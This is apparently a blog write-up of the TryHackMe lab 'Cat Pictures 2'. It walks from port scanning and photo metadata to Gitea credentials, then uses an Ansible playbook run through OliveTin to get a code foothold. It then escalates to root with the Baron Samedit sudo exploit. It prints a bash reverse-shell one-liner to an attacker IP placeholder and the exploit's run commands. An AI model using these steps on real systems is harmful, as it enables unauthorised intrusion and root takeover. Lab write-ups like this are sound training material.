 ```yaml
---
title: "Cat Pictures 2 | TryHackMe"
collection: publications
permalink: /publication/cat-pictures-2
excerpt: 'This is a free room from TryHackMe'
date: 2023-07-07
venue: '07-07'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/catpictures2.png)

**LINK :** [Cat Pictures 2](https://tryhackme.com/room/catpictures2)



# Enumeration

* Started by running an Nmap scan :

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 07:21 EDT
Nmap scan report for 10.10.130.123
Host is up (0.064s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.4.6 (Ubuntu)
222/tcp  open  ssh     OpenSSH 9.0 (protocol 2.0)
1337/tcp open  http    OliveTin
3000/tcp open  ppp?
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
```

The scan reveals 6 open ports :

 * ``ssh`` running on port 22.
 * ``nginx`` on port 80.
 * ``ssh`` on port 222.
 * ``OliveTin`` on port 1337 to access predefined shell commands from a a web interface.
 * ``Gitea`` on port 3000.
 * ``nginx`` default page on port 8080.


---

* On port 80 we have a ``Lychee`` photo album with cat pictures, and since this room is about cats, it must be our way to get the first flag.
* I downloaded all the cats pictures and run ``exiftool`` to read the metadata of these pictures.

```bash
exiftool *.jpg
```
![catpictures1](/images/cat_pictures1.png)

* I noticed that one of these pictures revealed the path to a text file on port ``8080``.

* Checking the text file, we found the credentials to access ``gitea``.

![catpictures2](/images/cat_pictures2.png)

# FLAG 1 :

* After gaining the access to the user's account we found, you will see a file named ``flag1.txt`` in ``ansible`` repository.

![catpictures3](/images/cat_pictures3.png)

# FLAG 2 :

* Checking the Ansible playbook, you will notice it contains a ``command`` line. so the idea here is to change the command and run the playbook from the ``OliveTin`` page on port ``1337`` to see if the command is getting executed.

> [Ansible playbooks](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_intro.html)

![catpictures4](/images/cat_pictures4.png)

![catpictures5](/images/cat_pictures5.png)

![catpictures6](/images/cat_pictures6.png)

* Since the command is getting executed, we can run a reverse shell to us.

```bash
bash -c "bash -i >& /dev/tcp/<your-ip-address>/4444 0>&1"
```
![catpictures7](/images/cat_pictures7.png)

* Before you run the ansible playbook, let's open a netcat listener

```bash
nc -lvnp 4444
```
![catpictures8](/images/cat_pictures8.png)

# FLAG 3 :

* In order to speed things up, let's run ``linpeas`` to see if we have a privilege escalation vector.

> [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

* The one that stood out is ``the sudo Baron Samedit``.

![catpictures9](/images/cat_pictures9.png)

* I downloaded this [exploit](https://github.com/blasty/CVE-2021-3156) and uploaded it to the target machine.

```bash
make
```
![catpictures10](/images/cat_pictures10.png)

* let's run ``sudo-hax-me-a-sandwic``

```bash
.\sudo-hax-me-a-sandwic 0
```
![catpictures11](/images/cat_pictures11.png)

* Now we are root, change directory to ``/root`` and get your 3rd flag.




